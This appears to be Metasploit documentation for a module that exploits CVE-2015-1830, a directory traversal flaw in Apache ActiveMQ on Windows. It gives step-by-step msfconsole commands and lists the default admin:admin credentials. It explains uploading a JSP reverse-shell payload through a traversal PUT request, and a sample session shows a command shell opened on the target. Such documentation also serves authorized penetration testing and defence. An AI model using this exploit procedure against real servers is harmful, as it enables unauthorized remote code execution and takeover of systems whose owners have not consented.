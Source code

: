 ## Introduction

A directory traversal vulnerability was discovered in the fileserver
upload/download functionality for blob messages in Apache ActiveMQ 5.x before
5.11.2 for Windows. The vulnerability, tracked as CVE-2015-1830, allows remote
attackers to create JSP files in arbitrary directories via unspecified vectors.

Because vulnerable servers allow for directory traversal, they will accept HTTP
PUT requests for `/fileserver/..\\admin\\` and process these as requests for
`/admin/`. For the PUT request to succeed, credentials need to be provided.

This module exploits CVE-2015-1830 by attempting to upload a JSP payload to a
target via an HTTP PUT requests for `/fileserver/..\\admin\\` using the default
credentials `admin:admin` (or any other credentials provided by the user). It
then issues an HTTP GET request to `/admin/<payload>.jsp` on the target in order
to trigger the payload and obtain a shell. The module has been succesfully
tested against ActiveMQ 5.11.1 on a Windows 7 machine.

## Verification Steps

1. Start msfconsole.
2. Do: `use exploit/windows/http/apache_activemq_traversal_upload`.
3. Do: `set RHOSTS [IP]`. This option is used to set the IP address of the
   remote system running Apache ActiveMQ.
4. Do: `set PAYLOAD [payload]`. This option can be used to set the payload to
   use against the target. The default payload is `java/jsp_shell_reverse_tcp`.
5. Do: `set LHOST [IP]`. This option is used to set the IP address of the local
   machine the payload should establish a connection with.
6. Do: `exploit`.

## Options

1.  `PASSWORD`. The default setting is `admin`, which is the default password
    for the ActiveMQ administrator account.
2.  `PATH`. This option is the traversal path. `/fileserver/..\admin\` by
    default.
3.  `USERNAME`. The default setting is `admin`, which is the default ActiveMQ
    administrator account.

## Scenarios

```
msf5 exploit(windows/http/apache_activemq_traversal_upload) > show options

Module options (exploit/windows/http/apache_activemq_traversal_upload):

   Name       Current Setting        Required  Description
   ----       ---------------        --------  -----------
   PASSWORD   admin                  yes       Password to authenticate with
   PATH       /fileserver/..\admin\  yes       Traversal path
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.2            yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8161                   yes       The target port (TCP)
   SSL        false                  no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                      yes       The base path to the web application
   USERNAME   admin                  yes       Username to authenticate with
   VHOST                             no        HTTP server virtual host


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.1      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL                   no        The system shell to use.


msf5 exploit(windows/http/apache_activemq_traversal_upload) > exploit

[*] Started reverse TCP handler on 192.168.1.1:4444
[*] Uploading payload...
[*] Payload sent. Attempting to execute the payload.
[*] Payload executed!
[*] Command shell session 1 opened (192.168.1.1:4444 -> 192.168.1.2:49194) at 2020-02-04 10:55:36 +0100

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\IEUser\Desktop\activemq 5.11.1\apache-activemq-5.11.1\bin\win64>
```

## References

1. <https://www.cvedetails.com/cve/CVE-2015-1830/>
2. <https://activemq.apache.org/security-advisories.data/CVE-2015-1830-announcement.txt>

